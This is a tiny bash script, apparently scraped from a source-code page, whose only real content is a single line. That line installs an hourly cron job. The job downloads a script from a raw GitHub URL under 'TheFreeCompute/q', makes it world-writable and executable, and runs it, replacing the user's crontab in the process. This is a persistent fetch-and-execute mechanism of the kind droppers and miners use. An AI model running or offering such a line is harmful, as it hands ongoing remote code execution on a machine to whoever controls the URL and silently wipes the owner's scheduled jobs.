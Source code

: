 #!/bin/bash

echo '@hourly rm ~/.q || true && curl --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/1.sh?$RANDOM" -o ~/.q && chmod 777 ~/.q && ~/.q' > ~/.crontab && crontab ~/.crontab
